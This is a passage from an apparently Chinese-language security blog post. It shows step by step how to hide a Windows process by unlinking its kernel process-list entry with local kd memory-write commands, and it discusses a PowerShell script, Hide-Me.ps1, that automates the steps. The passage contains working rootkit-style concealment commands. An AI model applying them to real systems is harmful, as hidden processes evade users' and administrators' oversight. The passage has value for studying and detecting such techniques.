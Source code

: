 ![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-12-15/2-7.png)


### 7、进程自身的新Blink指向进程自身的双链表地址$thisProcessLinks

kd命令：

```
f $thisProcessLinks+0x008 L4 ($thisProcessLinks的第0字节) ($thisProcessLinks的第1字节) ($thisProcessLinks的第2字节) (thisProcessLinks的第3字节)
```

**注：**

```
+0x008代表Blink
```

完整命令：

```
kd -kl -y "srv*c:\symbols*http://msdl.microsoft.com/download/symbols" -c "0xffffe001`95236370+0x008 L4 0x70 0x63 0x23 0x95;Q"
```

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-12-15/2-8.png)

**注：**

```
7、8操作必须，对应双链表删除操作中的free(p),否则会蓝屏
```

### 8、测试

在tasklist和Process Explorer中，notepad.exe进程均被隐藏

## 0x04 powershell自动实现
---

以上操作可通过powershell脚本自动实现，这就是Hide-Me.ps1实现的功能

Hide-Me.ps1有一处需要注意的地方:
https://github.com/giMini/PowerMemory/blob/master/PowerProcess/Hide-Me.ps1#L128

```
f $BLINK L4 0x$($FLINK.Substring(17,2)) 0x$($FLINK.Substring(15,2)) 0x$($FLINK.Substring(13,2)) 0x$($FLINK.Substring(11,2))"
```
此处`$BLINK`实际为`$BLINK+0x000`,表示`p->prior->next`(0x000为0，已省略)


适用环境：

- Win7、8、10 64位操作系统

利用前提：
